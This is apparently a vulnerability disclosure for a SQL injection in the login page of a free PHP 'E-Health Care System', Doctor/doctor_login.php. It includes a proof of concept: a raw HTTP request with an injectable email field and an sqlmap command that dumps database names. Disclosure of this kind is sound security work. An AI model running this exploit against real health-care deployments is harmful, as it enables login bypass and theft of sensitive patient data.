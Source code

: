 ## E-Health Care System has SQL injection vulnerability via doctor_login.php

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
/Doctor/doctor_login.php
## describe
An unrestricted SQL injection attack exists in the  E-Health Care System. The parameters that can be controlled are as follows: email in doctor_login.php.  This function executes the email  parameter into the SQL statement without any restrictions.  A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database. Or bypass the login function by sql injection.
## code analysis
The email parameter in Doctor/doctor_login.php  is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

![image-20241106154538422](https://github.com/user-attachments/assets/f7813e35-e9c8-40ad-bcd8-b8cdc407f51d)


POC

```
POST /Doctor/doctor_login.php HTTP/1.1
Host: healthcaresystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://healthcaresystem
Connection: close
Referer: http://healthcaresystem/Doctor/doctor_login.php
Cookie: PHPSESSID=k4kqb2fb6qsevrcvac0th97st0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=1*&pswd=1234&submit=login
```

sava as 1.txt

excute the command.

```
python sqlmap.py -r 1.txt --dbs
```

![image-20241106155557395](https://github.com/user-attachments/assets/c8f88a57-9887-4323-b3f3-1d7c1bf8541f)

Get database_names

![image-20241106155805823](https://github.com/user-attachments/assets/36ec78f9-545e-4346-a67b-22ece85b0682)










